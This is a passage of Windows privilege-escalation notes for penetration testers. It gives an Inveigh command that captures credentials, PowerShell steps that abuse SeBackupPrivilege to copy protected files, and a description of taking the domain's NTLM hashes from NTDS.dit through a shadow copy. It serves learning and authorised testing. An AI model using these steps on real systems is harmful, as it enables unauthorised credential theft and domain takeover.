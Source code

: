 ```powershell-session
Import-Module .\Inveigh.ps1
Invoke-Inveigh -ConsoleOutput Y -FileOutput Y
```

## Windows Group Privileges
### Backup Operators Group

```
whoami /groups
```

Membership of this group grants its members the **SeBackup** and **SeRestore** privileges. The **SeBackupPrivilege** allows us to traverse any folder and list the folder contents. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command. Instead, we need to programmatically copy the data, making sure to specify the **FILE_FLAG_BACKUP_SEMANTICS** flag.

We can use this [PoC](https://github.com/giuliano108/SeBackupPrivilege) to exploit the **SeBackupPrivilege**.

First, let's import the libraries in a PowerShell session (CARICARE PRIMA I FILE SULLA MACCHINA).

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

Check if **SeBackupPrivilege** is enabled.

```powershell
whoami /priv

# or

Get-SeBackupPrivilege
```

If the privilege is disabled, we can enable it.

```powershell
Set-SeBackupPrivilege
```

This privilege can now be leveraged to copy any protected file.

```powershell
Copy-FileSeBackupPrivilege 'C:\PATH_TO_FILE\FILE.txt' .\FILE.txt
```

#### Attacking a Domain Controller - Copying NTDS.dit

This group also permits logging in locally to a domain controller. The active directory database **NTDS.dit** is a very attractive target, as it contains the **NTLM hashes** for all user and computer objects in the domain. However, this file is locked and is also not accessible by unprivileged users.

As the **NTDS.dit** file is locked by default, we can use the Windows **diskshadow** utility to create a **shadow copy** of the C drive and expose it as E drive. The **NTDS.dit** in this **shadow copy** won't be in use by the system.
